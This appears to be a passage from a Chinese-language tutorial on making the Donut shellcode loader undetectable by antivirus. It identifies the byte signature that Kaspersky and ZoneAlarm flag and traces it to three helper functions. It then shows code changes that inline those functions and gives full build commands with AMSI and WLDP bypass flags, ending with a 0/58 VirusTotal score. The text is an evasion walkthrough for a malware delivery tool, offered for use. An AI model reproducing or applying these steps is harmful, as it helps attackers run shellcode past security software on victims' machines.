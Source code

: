 可以看到`Kaspersky`和`ZoneAlarm by Check Point`会报`HEUR:Trojan.Win64.Donut.a`

进一步分析，对应 Donut 的源代码在[clib.c](https://github.com/TheWover/donut/blob/v1.0/loader/script_dotnet.c)中的`Memcpy` `Memset` `_strcmp`三个函数

### 通过 inline 字免杀 Loader

由于杀软检测上述特征序列，所以将这三个函数通过 inline 方式嵌入调用者函数中

inline 嵌入后，LOADER 将不会有上述特征序列

#### 修改代码

修改`clib.c`代码

```plain
inline void *Memset (void *ptr, int value, uint32_t num)
// ...
inline void *Memcpy (void *destination, const void *source, uint32_t num)
// ...
inline int _strcmp(const char *str1, const char *str2) 
// ...
```

修改`loader.c`,直接包含`clib.c`

```plain
#include "loader.h"
#include "clib.c"   // <-- 添加这行
DWORD MainProc(PDONUT_INSTANCE inst);
// ...
```

#### 重新生成`loader_exe_x86.h`

安装 VS2022，打开`x86 Native Tools Command Prompt for VS 2022`，进入 Donut 源码目录

```plain
cl /nologo loader\exe2h\exe2h.c loader\exe2h\mmap-windows.c
cl -DBYPASS_AMSI_A -DBYPASS_WLDP_A -Zp8 -c -nologo -Gy -Os -O1 -Ob1 -GR- -EHa -Oi -GS- -Gs2147483647 -I include loader\loader.c hash.c encrypt.c loader\depack.c
link -nologo -order:@loader\order.txt -entry:DonutLoader -fixed -subsystem:console -nodefaultlib loader.obj hash.obj encrypt.obj depack.obj
exe2h.exe loader.exe
```

命令对应说明

1.  生成 exe2h.exe
2.  编译 LOADER
3.  链接 LOADER
4.  通过 exe2h.exe 将 loader.exe 转换为`loader_exe_x86.h`

再次将 LOADER 保存为文件，查杀结果为 0/58，查杀报告[链接](https://www.virustotal.com/gui/file/1cfa5ff012b9397c05d07a35fe163dad31f068a9bfd16ca30cc0aa23a8594c67)

至此 LOADER 的免杀就完成，但重新编译`donut.exe`后，再次生成 shellcode 查杀还有问题
